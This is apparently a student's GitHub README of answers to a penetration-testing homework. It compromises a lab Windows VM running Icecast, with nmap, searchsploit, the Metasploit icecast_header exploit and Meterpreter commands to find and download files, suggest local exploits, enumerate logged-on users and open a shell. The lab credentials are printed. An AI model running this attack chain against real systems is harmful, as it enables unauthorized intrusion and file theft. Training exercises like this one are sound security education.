# Week-17-Homework-Penetration-Testing-1

## Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.
The CEO claims to have passwords that are long and complex and therefore unhackable.

You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings recipe and seceretfile.

The deliverable for this engagement will be in the form of a report labeled Report.docx.

## Setup

Before you begin, we'll need to start the Icecast server to emulate the CEO's computer.

Log onto the DVW10 machine (credentials IEUser:Passw0rd!) and wait for the Icecast application to popup.
Then click Start Server.

## Reminders

A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.

If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.

## Scope

The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.

The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited.

After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.

Since you've already been provided access to the network, OSINT won't be necessary.

## Lab Environment
For this week's homework, please use the following VM setup:

Attacking machine: Kali Linux root:toor

Target machine: DVW10 IEUser:Passw0rd!

NOTE: You will need to login to the DVW10 VM and start the icecast service prior to beginning this activity using the following procedure:

After logging into DVW10, type "icecast" in the Cortana search box and hit Enter.
The icecast application will launch.
Click on Start Server.
You are now ready to begin the activity.

## Deliverable

Once you complete this assignment, submit your findings in the following document:

Report.docx

## Instructions

### You've been provided full access to the network and are getting ping responses from the CEO’s workstation.

**Perform a service and version scan using Nmap to determine which services are up and running:**

**Run the Nmap command that performs a service and version scan against the target.**

Answer: `nmap -sV 192.168.0.20`

![Nmap Scan](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/nmap%20scan.png)

**From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:**

**Run the SearchSploit commands to show available Icecast exploits.**

Answer: `searchsploit icecast`

![Searchsploit Icecast](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/searchsploit%20icecast.PNG)

**Now that we know which exploits are available to us, let's start Metasploit:**

**Run the command that starts Metasploit:**

Answer: `msfconsole`

![msfconsole](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/msfconsole.PNG)

**Search for the Icecast module and load it for use.**

**Run the command to search for the Icecast module:**

Answer: `search icecast`

![Search Icecast](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/search%20icecast.PNG)

**Run the command to use the Icecast module:**
**Note: Instead of copying the entire path to the module, you can use the number in front of it.**

Answer: `use exploit/windows/http/icecast_header`

We can also use the number in front of the exploit from the list provided from the search - `use 0`

![use Icecast](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/use%20icecast.PNG)

**Set the RHOST to the target machine.**

**Run the command that sets the RHOST:**

Answer: `set RHOST 192.168.0.20`

![Set RHOST 1](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/set%20RHOST%201.PNG)

![Set RHOST 2](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/set%20RHOST%202.PNG)

**Run the Icecast exploit.**

**Run the command that runs the Icecast exploit.**

Answer: `exploit` (while in module)

![Exploit command](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/exploit.PNG)

**Run the command that performs a search for the secretfile.txt on the target.**

Answer: `search -f *secretfile*.txt` 

This command will place a wildcard in front of and behind 'secretfile' in 'secretfile.txt', meaning the search will look for anything that contains 'secretfile.txt' as well as any other text files that have anything before or after 'secretfile.txt'.

![search secretfile](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/search%20secret.PNG)

**You should now have a Meterpreter session open.**

**Run the command to performs a search for the recipe.txt on the target:**

Answer: `search -f *recipe*.txt`

![search recipe](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/search%20recipe.PNG)

**Bonus: Run the command that exfiltrates the recipe.txt file:**

Answer: `download 'c:\Users\IEUser\Documents\Drinks.recipe.txt'`

![Download recipe](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/download%20Drinks.recipe.png)

The file is exfiltrated to the attacker machine's home folder:

![Download recipe 2](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/download%20drinks.recipe%202.PNG)

**You can also use Meterpreter's local exploit suggester to find possible exploits.**

**Note: The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.**

Answer: While still on the victim's machine in meterpreter shell: `run post/multi/recon/local_exploit_suggester`

![local exploit suggester](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/run%20meterpreter%20local%20exploit%20suggester.PNG)

### Bonus
**A. Run a Meterpreter post script that enumerates all logged on users.**

Answer: `run post/windows/gather/enum_logged_on_users`

![logged on users](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/logged%20on%20users.PNG)

**B. Open a Meterpreter shell.**

Answer: `shell`

![shell](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/shell.PNG)

We are now in the native shell environment for the victim machine. In this case it is command prompt or cmd.

**C. Run the command that displays the target's computer system information:**

Answer: `sysinfo`

![sysinfo 1](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/sysinfo%201.PNG)

We can also gather further system information by going into the native shell and running a command that is similar. In this case we can use the `systeminfo` command that is used in cmd:

![sysinfo 2](https://github.com/BrendanT2248/Week-17-Homework-Penetration-Testing-1/blob/main/Images/systeminfo.PNG)
